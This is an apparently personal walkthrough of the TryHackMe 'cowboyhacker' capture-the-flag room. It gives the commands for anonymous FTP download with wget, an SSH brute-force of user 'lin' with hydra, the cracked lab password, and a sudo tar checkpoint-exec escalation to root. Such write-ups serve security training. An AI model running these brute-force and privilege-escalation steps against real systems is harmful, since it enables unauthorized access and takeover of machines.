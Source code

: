 #ftp #hydra #wget

https://tryhackme.com/r/room/cowboyhacker

---
#### Nmap
![[Screenshot_2024-05-27_10-29-53.png]]

~~Ok so there is only one `/images` directory with one image `crew.jpg` in it, the `exiftool` gave me some hex's code to deal with, maybe~~

Ok the `Passive Mode` on ftp should be disabled by simply typing `passive` or by `wget`:
```shell
wget -m --no-passive ftp://anonymous@10.10.110.195
```

So I downloaded 2 files. The `locks.txt` give me a wordlist, probably passwords and `task.txt` give me a note with 2 names: `Vicious` and `lin`

I used hydra on a wordlist made with `cewl` but it was just `lin` the owner of the user account I bruteforced with `hydra`:
```shell
hydra -l 'lin' -P locks.txt ssh://10.10.110.195
```

The credentials are `lin:RedDr4gonSynd1cat3` 

And here I m in

The `sudo -l` gave me `tar`:
```shell
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

And here I m root

